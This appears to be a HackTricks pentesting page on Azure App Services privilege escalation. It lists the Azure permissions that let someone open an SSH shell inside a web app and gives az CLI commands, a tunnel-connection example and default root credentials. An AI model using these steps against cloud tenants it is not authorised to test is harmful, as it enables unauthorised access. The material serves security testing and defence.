 # Az - App Services Privesc

{{#include ../../../banners/hacktricks-training.md}}

## App Services

For more information about Azure App services check:

{{#ref}}
../az-services/az-app-service.md
{{#endref}}

### Microsoft.Web/sites/publish/Action, Microsoft.Web/sites/basicPublishingCredentialsPolicies/read, Microsoft.Web/sites/config/read, Microsoft.Web/sites/read,&#x20;

These permissions allows to call the following commands to get a **SSH shell** inside a web app

- Direct option:

```bash
# Direct option
az webapp ssh --name <name> --resource-group <res-group>
```

- Create tunnel and then connect to SSH:

```bash
az webapp create-remote-connection --name <name> --resource-group <res-group>

## If successfull you will get a message such as:
#Verifying if app is running....
#App is running. Trying to establish tunnel connection...
#Opening tunnel on port: 39895
#SSH is available { username: root, password: Docker! }

## So from that machine ssh into that port (you might need generate a new ssh session to the jump host)
ssh root@127.0.0.1 -p 39895
```

{{#include ../../../banners/hacktricks-training.md}}




